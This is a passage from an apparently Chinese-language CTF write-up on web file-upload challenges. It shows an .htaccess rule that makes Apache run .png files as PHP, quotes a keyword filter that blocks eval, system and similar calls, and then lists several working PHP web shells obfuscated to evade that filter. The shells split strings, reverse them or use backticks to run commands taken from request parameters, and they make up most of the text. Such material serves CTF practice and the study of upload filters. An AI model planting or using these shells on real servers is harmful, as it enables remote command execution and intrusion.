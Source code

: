 ### 考点：.htaccess文件

上传Apache的分布式配置文件（.htaccess）

```
AddType application/x-httpd-php .png   //将.png后缀的文件解析 成php
```

然后再上传.png文件的🐎

最后访问就行了

## web168

### 考点：基础免杀

上传php后缀可以上传，题目提示是免杀，那就是内容过滤了

```
function check($str){
    return preg_match('/eval|assert|assert|_POST|_GET|_COOKIE|system|shell_exec|include|require/i', $str);
}
```

免杀

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>

<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>

<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>

<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>

<?=`$_REQUEST[1]`?>
<?php echo `$_REQUEST[1]`;?>
```
